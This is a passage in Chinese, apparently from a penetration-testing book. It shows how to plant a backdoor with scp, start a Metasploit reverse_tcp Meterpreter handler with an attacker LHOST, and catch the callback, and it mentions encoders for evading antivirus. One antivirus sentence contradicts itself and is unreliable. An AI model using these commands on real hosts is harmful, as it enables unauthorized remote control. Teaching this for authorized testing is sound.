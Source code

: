1.  在目标主机上部署后门。这一步显然取决于您对所述主机的访问权限。对于我们的示例，我们将简单地使用`scp`将其上传到给定用户的主目录。

1.  在攻击者机器上启动 Metasploit 处理程序，使用以下代码：

```
msfcli multi/handler payload=linux/x86/Meterpreter/reverse_tcp LHOST=[attacker IP]

```

例如，使用以下命令启动 Metasploit 处理程序：

```
msfcli multi/handler payload=linux/x86/Meterpreter/reverse_tcp LHOST=192.168.10.103

```

1.  在目标主机上执行有效载荷。对于我们的示例，这将简单地涉及启动有效载荷，如下面的屏幕截图所示：![创建和部署有效载荷](img/5107OT_04_08.jpg)

1.  您应该在您的机器上看到以下启动，即与 Meterpreter 处理程序的连接回来：![创建和部署有效载荷](img/5107OT_04_09.jpg)

前面的屏幕截图显示了对受影响主机的目录访问。

您应该记住，msfpayload 在安全行业中被广泛使用，无论是渗透测试人员还是编写防病毒软件的人。这意味着，如果您尝试在安装了现代防病毒软件的主机上部署一种常见的 Metasploit 有效载荷，它可能不会触发防病毒软件数据库中的签名，除非您使用编码器或多态引擎的服务。这两种机制（编码和多态化）对您的后门中的恶意有效载荷进行编码和混淆，以使防病毒软件无法识别它为恶意。有关更多详细信息，请参阅本章末尾的*进一步阅读*部分。

msfpayload 命令就介绍到这里。我们可以继续学习逆向工程工具。
